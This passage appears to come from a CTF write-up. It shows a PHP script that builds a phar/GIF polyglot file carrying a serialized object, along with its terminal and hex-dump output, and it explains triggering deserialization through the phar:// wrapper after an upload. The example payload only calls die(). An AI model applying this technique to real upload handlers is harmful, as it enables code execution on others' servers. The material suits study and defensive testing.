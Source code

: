 ```php
<?php

class Evil{
  public function __wakeup() : void {
    die("Arbitrary Deserialization");
  }
}

// create new Phar
$phar = new Phar('evil.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("GIF89a\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new Evil();
$phar->setMetadata($object);
$phar->stopBuffering();
```

And run it:

```bash
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] php --define phar.readonly=0 evil.php  

(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] file evil.phar  
evil.phar: GIF image data, version 89a, 15370 x 28735  
```

The resulting file is a GIF image by MIME type, but it’s also got the serialized PHP payload:

```bash
(myenv)─(xpl0riz0n__XPl0RIz0n)-[~/ctf_OpenVPN] xxd evil.phar

00000000: 4749 4638 3961 0a3c 3f70 6870 205f 5f48  GIF89a.<?php __H
00000010: 414c 545f 434f 4d50 494c 4552 2829 3b20  ALT_COMPILER(); 
00000020: 3f3e 0d0a 4500 0000 0100 0000 1100 0000  ?>..E...........
00000030: 0100 0000 0000 0f00 0000 4f3a 343a 2245  ..........O:4:"E
00000040: 7669 6c22 3a30 3a7b 7d08 0000 0074 6573  vil":0:{}....tes
00000050: 742e 7478 7404 0000 0000 0000 0004 0000  t.txt...........
00000060: 00c7 a78b 3bb4 0100 0000 0000 0074 6578  ....;........tex
00000070: 7407 3922 d43a e276 a40f 032d dc71 9a28  t.9".:.v...-.q.(
00000080: e590 89d3 1654 ab2a dadf 331d 362a 9dd4  .....T.*..3.6*..
00000090: 5b03 0000 0047 424d 42                     [....GBMB
```

If I request `evil.phar` using the same upload as above, it works:


It is saving it as a PNG file, but the trick from here is to use the `phar://` filter to load it as PHP (without the extension mattering) and go from there.

# Failure to Weaponize
